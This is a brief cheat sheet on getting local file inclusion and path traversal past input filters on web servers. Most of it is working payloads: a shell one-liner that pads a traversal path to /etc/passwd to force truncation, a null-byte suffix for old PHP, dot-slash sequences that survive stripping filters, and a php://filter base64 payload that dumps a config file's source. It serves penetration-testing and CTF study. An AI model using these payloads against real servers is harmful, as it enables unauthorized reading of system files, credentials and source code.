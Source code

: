 **BYPASSING FILTERS**

If a server url gets truncated due to long characters, you can create a long string after your payload and hope for the truncation.
```CLI
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```


PHP 5.5 and older was vulnerable to NULL bytes, %00 at the end. The Null byte told server to ignore everything after
```
/etc/passwd%00
```


Add several dots or slashes that will get stripped

`....////....//....//`
`........//////`
`..\/`


Adding base64 encoding filter to the LFI could print out the source code in b64. The config below is the php file we want code from and the LFO starts at php://filter

`?language=php://filter/read=convert.base64-encode/resource=config`